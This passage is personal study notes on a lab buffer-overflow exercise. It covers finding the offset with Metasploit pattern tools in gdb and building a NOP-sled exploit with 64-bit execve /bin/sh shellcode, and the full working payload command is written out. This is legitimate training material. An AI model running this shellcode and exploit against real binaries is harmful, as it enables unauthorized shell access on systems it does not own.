 			- `/usr/share/metasploit-framework/tools/exploit/pattern_create-rb -l 200`
			- Copy the given pattern
			- run it in `(dbg)`
				- We've gotten a segmentation fault
				- Let's look at what `rbp` register has in it
					- `(gdb) i r`
						- Shows all registers :) 
				- `rbp` in this exercise has been overridden with the pattern we gave it (I don't see the resemblance - but will look at this more carefully)
			- Check the value that `rbp` has with MSF's `pattern_offset.rb` tool (don't forget to do an `-h` on various tools programs if you want to know more :) )
				- `../../../../../pattern-offset.rb -q <rbp-value>`
					- Exact match at offset 144
				- `rbp` having a size of 8bytes
					- 144+8 = 152
				- The offset found above is confirmed. 
	- Picking a Shell Code
		- Refer to l1ge's write-up above. 
			-   *(one day, I will write my own! Har!)*
			- *Although some of the stuff here, a lot of it, is my own .. But like an actual formal one :)*
			- `\x6a\x3b\x58\x48\x31\xd2\x49\xb8\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x49\xc1\xe8\x08\x41\x50\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05\x6a\x3c\x58\x48\x31\xff\x0f\x05`
			- Run this `dbg`
			- `(dbg) run $(python -c "print 'A'*100 + '\x6a\x3b\x58\x48\x31\xd2\x49\xb8\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x49\xc1\xe8\x08\x41\x50\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05\x6a\x3c\x58\x48\x31\xff\x0f\x05' + 'A'*12 + 'B'*6")`
			- Examine the dump of the code with 
				- `(dbg) x/100x $rsp-200`
					- Dumps 100\*4 bytes from memory location of $rsp-200 bytes
				- Take note of what is displayed and the code that was run above.
`0x7fffffffe2a8: 0x41414141   0x41414141   0x41414141   0x48583b6a`
				- You'll take note that the memory address at `0x7fffffffffe2a8` is where the shellcode injection resides, but in the fourth column
					- This is the address of the first column on this line (currently with the A's/41s that we gave it earlier)
					- Our shellcode is three columns further in
					- We'll need to add 3\*4=12 bytes to `0x7fffffffffe2a8`
					- 12 in hex is `0xC`
					- `0x7fffffffffe2a8` + 0xC which comes out to `0x7fffffffffe2b4`
					- This is the exact address of where the shell code starts in the buffer
			- As per THM's instruction earlier above, memory can shift a bit sometimes, from one execution to the next. Use of NOPs will be required
				- Injecting NOPs will mean that we won't need to get the exact address of where the Shellcode starts, any address in NOPS will do
				- The program will skip all NOPs and execute the shellcode
			- Replace the first set of A's with NOPs (`\x90`)
			- Check in dbg again
				- `(dbg) x/100x $rsp-200`
				- Pick any address as long as NOPs are in it
					- `0x7fffffffe298`
				- Convert that address to Little Endian
					- `0x98e2ffffff7f`
				- And to:
					- `\x98\xe2\xff\xff\xff\x7f`
				- Replace the last `6*B` part in the above command with the above memory address and voila!!!!! 
`./buffer-overflow $(python -c "print '\x90'*100 + '\x6a\x3b\x58\x48\x31\xd2\x49\xb8\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x49\xc1\xe8\x08\x41\x50\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05\x6a\x3c\x58\x48\x31\xff\x0f\x05' + 'A'*12 + '\x98\xe2\xff\xff\xff\x7f'")`
- Thanks  l1ge :) 
	- There is a huge but in Task 8 though. 
	- Albeit that we were able to pop a shell out of the buffer overflow exploit we did.... We're still User1. The secret.txt file is owned by User2. Great.
	